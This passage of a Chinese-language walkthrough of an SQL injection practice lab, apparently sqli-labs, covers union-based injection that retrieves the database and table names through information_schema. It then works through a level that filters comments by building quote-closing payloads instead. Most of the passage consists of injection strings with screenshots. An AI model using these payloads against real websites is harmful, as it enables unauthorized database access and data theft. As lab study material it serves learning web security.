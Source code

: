* 查库
```
-admin" union select 1,2,database() #//加密
```
![image](https://user-images.githubusercontent.com/76896357/115098863-09cee780-9f65-11eb-9b85-fdfc374be5ee.png)

* 查表
```
-admin" union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() #
```

![image](https://user-images.githubusercontent.com/76896357/115098921-5d413580-9f65-11eb-8372-ed7eb6ca17c4.png)

![image](https://user-images.githubusercontent.com/76896357/115098749-4fd77b80-9f64-11eb-808a-874b63b532f8.png)

剩下的就类似之前的语句

## 23. 过滤掉注释

* 看一下闭合方式
```
?id=admin'
```

![image](https://user-images.githubusercontent.com/76896357/115099006-e2c4e580-9f65-11eb-83d9-1ad8feb18c50.png)

显然是‘闭合

* 看下有没有回显
```
?id=admin' union select 1,2,3 --+
```
![image](https://user-images.githubusercontent.com/76896357/115099050-16a00b00-9f66-11eb-96b0-5fb40f2eaf43.png)

没有

* 看下会不会报错

```
?id=1' and 1=1 --+
```

![image](https://user-images.githubusercontent.com/76896357/115099104-5e269700-9f66-11eb-9ff3-845c0eac76bc.png)

看到这里，发现报错就没变过，而且根据报错也能猜到，估计是把注释给过滤掉了。。。

那么就有自己来造闭合语句‘’

* 查库
```
?id='union select 1,2,3'
?id='union select 1,2,databae()'

?id= ' union select 1,2,group_concat(database()) from information_schema.schemata where 1 or '1'= '
```
![image](https://user-images.githubusercontent.com/76896357/115099163-b9f12000-9f66-11eb-96be-e19b2e1e4739.png)
